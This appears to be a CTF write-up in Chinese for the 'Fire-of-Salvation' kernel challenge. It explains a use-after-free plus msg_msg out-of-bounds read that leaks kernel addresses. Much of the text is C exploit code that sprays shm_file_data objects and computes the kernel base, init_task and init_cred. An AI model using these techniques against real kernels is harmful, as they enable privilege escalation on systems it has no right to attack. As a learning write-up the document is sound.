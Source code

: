 # Fire-of-Salvation

## 越界读泄露内核地址

首先，对一个rule_t进行UAF，只要add，dup，free即可。此时，我们控制了一个空闲的kmalloc-4096结构。

接着，发送一个0xfd0+0x30大小的消息。msg_msg结构会占据我们控制的kmalloc-4096，其next指向了一个kmalloc-64内存块。然后，通过UAF改大msg_msg的`m_ts`结构就能越界读segment后面的内存。

这里的问题是不能确定segment后面有什么样的地址信息。为此，我们可以在发送消息后，喷射大量的shm_file_data结构。

```c
struct shm_file_data {
	int id;
	struct ipc_namespace *ns;
	struct file *file;
	const struct vm_operations_struct *vm_ops;
};
```

这样就可以读到`init_ipc_ns`的值，该数据为全局变量不受FG_KALSR影响。

```c
  send_msg(qid, message, 0x1010 - 0x30, 0);

  printf("[*] Heap spary...\n");
  heap_spary(0x80);

  printf("[*] Edit msg...\n");
  ((struct msg_msg *)rule)->m_list.next = (void *)0xAAAAAAAA;
  ((struct msg_msg *)rule)->m_list.prev = (void *)0xBBBBBBBB;
  ((struct msg_msg *)rule)->m_ts = 0x1000 + 0x500;
  ((struct msg_msg *)rule)->m_type = 1;
  rule->idx = 0;
  rule->type = OUTBOUND;
  strcpy(rule->ip, "000000000");
  ioctl(global_fd, EDIT_RULE, rule);

  uint64_t *dump = calloc(1, 0x1500);
  printf("[+] dump:\t%p\n", dump);
  ret = msgrcv(qid, dump, 0x1500, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
  if (ret < 0) {
    die("[!] Failed to recv message");
  }
  int i;
  for (i = 0xff0 / 8; i < 0x1500 / 8; i++) {
    if ((dump[i] & 0xfff) == 0x7a0) {
      init_ipc_ns = dump[i];
      printf("[+] index: %d\n", i);
      break;
    }
  }
  kernbase = init_ipc_ns - 0xc3d7a0;
  init_task = kernbase + 0xc124c0;
  init_cred = kernbase + 0xc33060;
```
